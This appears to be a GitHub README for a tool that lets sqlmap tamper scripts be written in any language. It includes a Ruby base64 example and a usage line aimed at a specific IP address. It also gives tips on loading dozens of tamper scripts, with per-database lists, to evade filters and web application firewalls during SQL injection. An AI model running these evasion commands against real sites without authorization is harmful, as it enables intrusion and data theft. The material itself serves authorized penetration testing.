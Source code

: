 # SQLmap Tamper-API
It's an API for SQLmap tamper scripts allows you to use your favorite programming language to write your tamper scripts.

This API solves SQLmap limitation of accepting only python to write tamper scripts.

## How it works
**`taper-api.py`** script sends the **payload** and **kwargs** in a JSON format ( `{"payload": "", "kwargs": {"headers": {}}}` ) to the foreign tamper script's STDIN as an argument.

From there the foreign script parses the JSON and process it then sends it as a JSON format again to STDOUT where `tamper-api.py` reads and parses then sends it to SQLmap.

```
    ,-------(returns objects)---------,
    |                                 |
[ sqlmap ] --(sends objects)--> [tamper-api] --(sends json)--> [your-script]
                                      ^                             |
                                      |________(returns json)_______|  

```


Example

```ruby
#!/usr/bin/env ruby
#
# Author:       KING SABRI | @KINGSABRI
# Description:  Base64 encoding all characters in a given payload
# Requirements: None
#
require 'json'
require 'base64'

@json    = JSON.parse(ARGV[0])
@payload = @json["payload"]
@kwargs  = @json["kwargs"]

@json["payload"] = Base64.urlsafe_encode64(@payload)

print @json.to_json
```

**Don't Forget:**
- Copy `tamper-api.py` script into sqlmap/tamper directory.
- Check `tamper-scripts/[YOUR_LANGUAGE]` for practical examples.


## Usage
```
sqlmap -v3 -u https://144.91.86.150/xmlrpc.php --tamper tamper-api base64encode.rb
```

## Contribution
1. Fork
2. Clone : `https://github.com/[USERNAME]/sqlmap-multi-language-tamper.git`
3. Create a new branch: `git checkout -b YourBranch`
4. Commit changes: `git  add * && git commit 'description'`
5. Create Pull Request(PR)

Or, open an issue for new requests and bugs reporting!

# SQLMap Tamper Scripts (SQL Injection and WAF bypass) Tips
Use and load all tamper scripts to evade filters and WAF :
~~~python
sqlmap -u ‘http://www.site.com/search.cmd?form_state=1’ — level=5 — risk=3 -p ‘item1’ — tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
~~~
General Tamper testing:
~~~
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
MSSQL:
~~~
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
MySQL:
~~~
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
~~~

Here [lists of sqlmap Tamper scripts](https://github.com/readloud/SQLmap-Tamper-API/blob/main/tamper-list.md) with explanation.
